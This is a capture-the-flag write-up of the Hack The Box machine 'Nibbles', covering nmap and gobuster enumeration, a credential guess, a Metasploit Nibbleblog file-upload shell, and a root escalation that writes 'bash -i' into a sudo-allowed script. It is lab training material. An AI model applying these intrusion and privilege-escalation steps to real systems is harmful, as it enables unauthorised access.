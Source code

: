 ```yaml
---
title: "Nibbles - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Nibbles
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
---
```


## Nibbles
![](https://kar0nx.github.io/assets/images/writeup/box-nibbles.webp)

## Reconnaissance

IP: 10.10.10.75
### NMAP

```
nmap -T4 -A -p- 10.10.10.75
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-17 06:32 EST
Nmap scan report for 10.10.10.75
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/17%OT=22%CT=1%CU=41960%PV=Y%DS=2%DC=T%G=Y%TM=67B3
OS:1E59%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)
OS:OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53C
OS:ST11NW7%O6=M53CST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)
OS:ECN(R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK
OS:=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   30.91 ms 10.10.14.1
2   31.17 ms 10.10.10.75

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.72 seconds
```

As we can see port 22 ssh - OpenSSH 7.2p2 and port 80 http - Apache httpd 2.4.18 are open. 
## Website
### Site
```
http://10.10.10.75/
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250217124014.png)

by checking source code we can spot some informations

```
http://10.10.10.75/nibbleblog/
```
not much information here, let's continue searching
## Gobuster

```
gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x php,txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250217130110.png)

```
http://10.10.10.75/nibbleblog/content/private/users.xml
```

here we can find username = admin

```
http://10.10.10.75/nibbleblog/admin.php
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250217125635.png)

Admin login panel, we have username and we can brute force for password using Burp Suit or just guess password using hint on HTB
```
Especially on older HackTheBox machines, it's always a good idea to try the name of the box as a password.
```

## Gaining Access

Let's google for "nibbleblog 4.0 3 exploit"
https://www.exploit-db.com/exploits/38489
https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload/

```
set up metasploit
```

and we got a shell as low priv user, we can take flag

```
shell
cd /nibbler/personal
unzip personal.zip
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250217134524.png)

any user can edit this file and execute .sh file
## Privilege Escalation

Check  for sudo permission
```
sudo -l
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250217135421.png)

unzip personal.zip file first

```
echo "bash -i" > monitor.sh
	-i shell is interactive
```
overwrite monitor.sh with bash -i, and we are good to go

```
sudo /home/nibbler/personal/stuff/monitor.sh
```
and we have root privileged, now navigate to root directory and capture flag